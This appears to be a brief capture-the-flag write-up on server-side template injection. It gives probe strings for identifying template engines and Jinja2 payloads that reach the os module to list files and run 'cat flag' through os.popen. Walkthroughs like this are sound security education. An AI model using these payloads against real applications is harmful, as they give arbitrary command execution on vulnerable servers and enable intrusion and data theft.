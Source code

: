 Server Side Template Injection

Test
```
{{6 * 7}}               -> Jinja2 (Python Flask/Django) or Twig (PHP Symfony)
${6 * 7}                -> Freemarker (Java) or Thymeleaf (Java)
#set($a = 6 * 7)${a}    -> Velocity (Java)
{$7*7}                  -> Smarty (PHP)
<% print 7*7 %>         -> Mako (Python)
```

Find out its Jinja2 or Twig. Continue testing with `self` shows that it is python. 

Test
```jinja
{{self._TemplateReference__context.cycler.__init__.__globals__.os.listdir()}}
```

Shows files, one of them is `flag`. 

Test
```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}}
```

Gives flag. 